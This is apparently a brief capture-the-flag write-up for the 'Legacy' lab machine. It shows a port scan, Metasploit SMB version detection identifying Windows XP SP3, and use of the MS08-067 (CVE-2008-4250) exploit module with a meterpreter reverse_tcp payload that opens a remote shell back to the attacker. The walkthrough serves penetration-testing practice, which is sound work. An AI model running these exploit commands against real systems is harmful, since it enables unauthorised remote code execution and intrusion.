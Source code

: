 # Legacy Write-Up

Easy

Tags: 
`Easy`
`External`
`Network`
`SAMBA`
`Penetration Tester Level 2`
`Remote Code Execution`
`CVE-2008-4250`
`Public Vulnerabilities`
`CVE Exploitation`

## Intro

1. Use exploit/windows/smb/ms08_067_netapi

## Exploit

### Port scanning

```
PORT     STATE  SERVICE
139/tcp  open   netbios-ssn
445/tcp  open   microsoft-ds
3389/tcp closed ms-wbt-server
```

### SMB enumeration

check SMB version

```
use auxiliary/scanner/smb/smb_version
```

=> `Windows XP SP3` => Microsoft Windows Server - Code Execution (MS08-067)

use metasploit module

```
use exploit/windows/smb/ms08_067_netapi
```

```
set payload windows/x64/meterpreter/reverse_tcp
```

rhosts, lhost, lport > run
